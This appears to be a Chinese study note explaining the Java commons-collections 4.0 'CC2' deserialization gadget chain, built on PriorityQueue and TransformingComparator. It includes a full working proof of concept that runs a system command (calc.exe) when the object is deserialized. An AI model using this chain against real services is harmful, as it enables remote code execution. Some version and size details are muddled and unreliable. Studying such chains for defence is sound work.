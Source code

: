 - [CC2链](#cc2链)
  - [PriorityQueue](#priorityqueue)
    - [PriorityQueue#readObject](#priorityqueuereadobject)
    - [PriorityQueue#heapify](#priorityqueueheapify)
    - [PriorityQueue#siftDown](#priorityqueuesiftdown)
    - [PriorityQueue#siftDownUsingComparator](#priorityqueuesiftdownusingcomparator)
  - [TransformingComparator#compare](#transformingcomparatorcompare)
  - [POC构造](#poc构造)
  - [调用流程图](#调用流程图)
  - [commons-collections 4.1](#commons-collections-41)
# CC2链
依赖包:  commons-collections 4.0
## PriorityQueue
### PriorityQueue#readObject
PriorityQueue类是一个优先队列数据结构,其实现序列化接口并重写了readObject()如下  
![](2021-12-27-22-21-28.png)  
其中`queue`属性定义如下
![](2021-12-27-22-23-29.png)  
这两个属性被`transient`修饰,本不会被反序列化,但在其重写的`readObject`中还是手动的反序列化了`queue`.
```java
        for (int i = 0; i < size; i++)
            queue[i] = s.readObject();
```
在最后还调用了`heapify`方法.
### PriorityQueue#heapify
`heapify`方法如下
![](2021-12-27-22-28-07.png)
其中当size大于2时会进入`siftDown`方法中
### PriorityQueue#siftDown
![](2021-12-27-22-37-24.png)  
在`siftDown`中根据`comparator`的有无会进入不同的流程.
### PriorityQueue#siftDownUsingComparator
而在`siftDownUsingComparator`分支中存在这么一处调用`comparator.compare(x, (E) c)`.
![](2021-12-27-22-38-59.png)  
其调用了`comparator`对象的`compare`方法,而`comparator`在其构造函数中设置如下.
![](2021-12-27-22-52-55.png)  
## TransformingComparator#compare
在commons-collections中有一个实现了序列化接口和Comparator的类为`TransformingComparator`,其`compare`方法如下  
![](2021-12-27-22-41-17.png)  
其中调用了`this.transformer.transform`,也就是说当我们指定this.transformer为CC1中`transform`类即可进入`transform`利用链.  
而`this.transformer`属性在其构造函数中设置.
![](2021-12-27-22-43-02.png)  
## POC构造
首先创建一个`PriorityQueue`对象,其要满足以下几个条件才能正常执行readObject()
* size > 2,利用`PriorityQueue`提供的add方法来添加两个元素.
* comparator要先为空,不然在添加第二个元素时会调用`his.decorated.compare(value1, value2)`,而`ProcessImpl`因为没有实现`Comparable`从而导致序列化时失败,所以需要利用反射在添加完元素后再设置`comparator`的值.

首先生成`transform`利用链,与CC1一样.
```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, null}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc.exe"}
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
```
完整POC:
```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, null}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc.exe"}
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue queue = new PriorityQueue(2);
        queue.add(1);
        queue.add(2);
        Field comparator = queue.getClass().getDeclaredField("comparator");
        comparator.setAccessible(true);
        comparator.set(queue, transformingComparator);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
```
调用栈如下:
![](2021-12-27-23-13-03.png)  
## 调用流程图 
![](2021-12-27-23-17-03.png)  
## commons-collections 4.1
commons-collections 4.0之后直接修改了`InvokerTransformer`类,其取消了之前实现的`Serializable`接口,导致序列化失败.
而在commons-collections 4.0之前`PriorityQueue`类还没有实现`Serializable`接口,导致无法利用.